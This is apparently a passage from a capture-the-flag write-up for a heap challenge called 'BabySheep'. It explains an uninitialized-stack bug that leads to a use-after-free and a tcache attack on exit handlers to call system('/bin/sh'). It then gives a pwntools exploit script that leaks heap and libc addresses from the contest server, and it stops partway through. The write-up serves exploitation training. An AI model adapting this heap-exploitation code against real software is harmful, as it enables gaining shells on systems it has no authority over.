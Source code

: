 ```python
            p.interactive()
        except:
            with context.quiet:
                p.close()
            continue
```

## BabySheep

We have a CRUD heap challenge, and the vulnerability is uninitialized stack.

By failing scanf intentitentionally, we can achieve UAF to read and write crucial metadata.

I did a tcache unlinking attach to overwrite exit funcs with system("/bin/sh").

```python
from pwn import *

def create(size, content):
    p.sendlineafter(b"[E]xit\n", b"C")
    p.sendlineafter(b"size?\n", str(size).encode())
    p.sendlineafter(b"content?\n", content)

def output(idx, check=True):
    p.sendlineafter(b"[E]xit\n", b"O")
    p.sendlineafter(b"Which text? (0-9)\n", str(idx).encode())
    if check:
        return p.recvuntil(b"=======", drop=True)
    else:
        return p.recvuntil(b"1. [C]reate", drop=True)

def update(idx, content):
    p.sendlineafter(b"[E]xit\n", b"U")
    p.sendlineafter(b"Which text? (0-9)\n", str(idx).encode())
    p.sendline(content)

def delete(idx):
    p.sendlineafter(b"[E]xit\n", b"D")
    p.sendlineafter(b"Which text? (0-9)\n", str(idx).encode())

context.terminal = ["tmux", "neww"]
context.binary = libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
p = remote("win.the.seetf.sg", 2001)
# p = process("./chall")

create(0x20, b"A")
delete(0)

heap_leak = (u64(output(1000)[:8]) << 12) + 0x350
log.info(f"heap leak @ {hex(heap_leak)}")

create(0x500, b"B")
create(0x500, b"C")
delete(0)

libc_leak = u64(output(1000, False)[:8])
libc.address = libc_leak - 2202848
xor_key = libc.address - 10384 - 0x30
exit_funcs = libc.address + 2207488 +0x150

log.info(f"libc leak @ {hex(libc_leak)}")
log.info(f"libc base @ {hex(libc.address)}")

delete(0)
```